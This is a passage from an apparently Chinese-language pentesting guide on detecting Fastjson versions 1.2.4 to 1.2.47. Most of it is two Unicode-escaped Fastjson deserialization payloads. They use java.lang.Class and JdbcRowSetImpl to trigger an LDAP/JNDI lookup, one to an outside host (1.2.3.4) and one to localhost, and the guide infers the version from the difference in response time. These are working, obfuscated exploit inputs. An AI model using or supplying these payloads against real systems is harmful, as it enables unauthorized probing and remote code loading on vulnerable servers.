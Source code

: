 #### 2.3.2.1 判断 1.2.4<=version<=1.2.47

`payload26`（组合拳）：

```plain
{"name":{"\u0040\u0074\u0079\u0070\u0065":"\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0043\u006c\u0061\u0073\u0073","\u0076\u0061\u006c":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"x":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://1.2.3.4/test111","autoCommit":true}}
```

```plain
{"name":{"\u0040\u0074\u0079\u0070\u0065":"\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0043\u006c\u0061\u0073\u0073","\u0076\u0061\u006c":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"x":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://127.0.0.1/test111","autoCommit":true}}
```

先用第一个，再用第二个，如果第一个响应时间很长，而第二个较短，则说明版本：  
[![](assets/1706254407-8917292f3b24d9152e049c84755ec690.png)](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697705261887-a3d305c7-12f2-4e20-b529-5ec3cfe66d03.png)  
[![](assets/1706254407-48e4aef1c3275193e3d425cc94473517.png)](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697705242447-39abdb46-d477-40f6-809b-7661a5430e49.png)
